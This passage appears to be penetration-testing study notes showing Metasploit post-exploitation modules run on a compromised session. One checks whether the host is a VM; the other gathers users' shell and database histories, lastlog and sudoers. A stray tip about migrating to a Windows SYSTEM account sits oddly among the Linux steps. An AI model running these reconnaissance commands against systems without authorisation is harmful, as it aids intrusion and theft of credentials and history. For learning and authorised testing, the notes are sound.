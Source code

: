 > 📌 *A Docker container can be exploited to break out of it and  gain access to the host system.*

- Enumerate **VM**

```bash
search checkvm
use post/linux/gather/checkvm
set SESSION 3
run
# The target is not a VM
```

![Metasploit - post/linux/gather/checkvm](3-metasploitassets/image-20230422130151548.png)

- Enumerate **users history**

```bash
search enum_users_history
use post/linux/gather/enum_users_history
# Description:
#   This module gathers the following user-specific information: shell 
#   history, MySQL history, PostgreSQL history, MongoDB history, Vim 
#   history, lastlog, and sudoers.
set SESSION 3
run

# If this doesn't work, migrate to a "NT AUTHORITY\SYSTEM" user service
```

![Metasploit - post/linux/gather/enum_users_history](3-metasploitassets/image-20230422130408774.png)
